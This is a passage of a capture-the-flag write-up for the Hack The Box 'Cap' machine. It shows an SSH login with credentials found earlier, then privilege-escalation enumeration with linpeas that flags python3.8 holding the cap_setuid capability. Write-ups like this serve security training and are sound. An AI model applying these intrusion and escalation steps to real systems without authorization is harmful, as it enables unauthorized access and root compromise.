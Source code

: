 Utilizing the username `nathan`, which was identified on the security dashboard web application, I was able to log in to SSH:

```shell
┌──(kali@kali)-[~/htb/cap]
└─$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

    * Documentation:  https://help.ubuntu.com
    * Management:     https://landscape.canonical.com
    * Support:        https://ubuntu.com/advantage

    System information as of Wed Sep 15 19:34:44 UTC 2021

    System load:           0.0
    Usage of /:            36.6% of 8.73GB
    Memory usage:          20%
    Swap usage:            0%
    Processes:             221
    Users logged in:       0
    IPv4 address for eth0: 10.10.10.245
    IPv6 address for eth0: dead:beef::250:56ff:feb9:102a

    => There is 1 zombie process.

    * Super-optimized for small spaces - read how we shrank the memory
    footprint of MicroK8s to make it the smallest full K8s around.

    https://ubuntu.com/blog/microk8s-memory-optimisation

63 updates can be applied immediately.
42 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$
```

# Privilege Escalation

Once on the box, the first step I generally take is to run an automated enumeration script such as `linpeas.sh`. Having already obtained valid credentials, transferring the script is trivial utilizing `scp`. Once on the box and running, I was able to identify a particular portion of the output that points to an easy privilege escalation:

```bash
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip 
/usr/bin/ping = cap_net_raw+ep 
/usr/bin/traceroute6.iputils = cap_net_raw+ep 
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep 
```
